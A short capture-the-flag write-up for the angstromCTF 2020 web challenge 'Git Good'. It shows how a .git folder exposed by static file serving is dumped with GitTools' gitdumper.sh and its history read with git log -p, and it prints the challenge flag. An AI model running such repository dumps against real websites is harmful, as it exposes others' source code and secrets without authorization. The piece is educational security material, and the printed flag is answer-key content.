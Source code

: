 # [Web] Git Good

> Points: 70
> Solves: 567

## Description

Did you know that angstrom has a git repo for all the challenges? I noticed that clam committed [a very work in progress challenge](https://gitgood.2020.chall.actf.co) so I thought it was worth sharing.

> Hint: Static file serving is a very dangerous thing when in the wrong directory.

## Solution

As the challenge title mentions, it might be the risk of `.git` folder leaked.

By using [GitTools](https://github.com/internetwache/GitTools), we can recover the original git repository.

```sh
$ ./Dumper/gitdumper.sh https://gitgood.2020.chall.actf.co/.git/ tmp
$ cd tmp
$ git log -p
```

Then we can see the flag which has been replaced.

Flag `actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}`

